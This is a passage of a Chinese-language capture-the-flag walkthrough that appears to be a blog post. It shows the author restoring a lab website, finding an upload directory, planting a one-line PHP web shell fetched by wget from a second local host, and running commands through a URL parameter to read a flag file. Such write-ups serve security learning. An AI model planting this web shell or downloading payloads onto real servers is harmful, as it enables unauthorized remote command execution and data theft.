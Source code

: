 拿到了 flag4... 还发现 LOOT.ZIP 受保护的 zip 文件以及网站的备份文件...

目前主要是恢复 Callahan Auto 的网站...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4m7nr7ckJm2cNrRQMVenPSw1hvlENnQHSVulhoiaMDhl9aBj7BibVvjCw/640?wx_fmt=png)

```
cp callahanbak.bak /var/www/html/index.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4fiaMpsL4VWLTicMm9skF6aWsRDFCYrZuOlMESCDXoIicsJbdVvSa1JJuQ/640?wx_fmt=png)

Callahan Auto 网站回到在线... 访问...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4hSbtoc9pwXuiapibmYUmu43cUyDuXicNlV1NTQicO9qmH54kCvxduybFTg/640?wx_fmt=png)

完成后我得提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4GlrAs3SAVGtUrCrtJfM2xANrIMs8icwy8pYrw3ZEQPU9xtqO8fQZAnQ/640?wx_fmt=png)

www-data 是. 5.txt 的所有者... 需要在 web 上提个 shell 即可读取...

由于该 Web 服务器的后端是 Apache...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4ia50Xb645nw6SWzRpPCT7CeVthiaMPO2gSC9iaAuEVW1PvePEDlMvP6xA/640?wx_fmt=png)找到了上传文件的目录... 也是在. zip 目录边上...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4EDWf8lsdSCg2jicrRPH7GIGPfeqHrvpeibtrHxwEgZSDlEByRGoN1L5A/640?wx_fmt=png)

```
http://192.168.182.140:8008/NickIzL33t//P4TCH_4D4MS/
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f41Wt76nfn4bbyWgrticsL0Cyh19se88a6ibISrIbV16lIAJxibWxNlJmxQ/640?wx_fmt=png)

简单设置一个 shell 即可阅读...

```
<?php system($_GET['cmd']); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4Hia7icwuxIKKzejBxVgPG8WTQ3GbOl78Pdnqha0aBnBdkh6A0d7FPIBA/640?wx_fmt=png)

```
wget http://192.168.182.149:5555/dayushell.php -O sh.php
```

上传后在 web 执行 cmd 命令即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4SUjQhCN20orFuYyH0lWs2iaon2aavF90pUE8micmnGNoeXsWFj6XD0qw/640?wx_fmt=png)

当然上传以上类型的 shellcode 也可以获得权限...

前往 web 访问：

```
http://192.168.182.140:8008/NickIzL33t//P4TCH_4D4MS/uploads/sh.php?cmd=cat%20/.5.txt
```
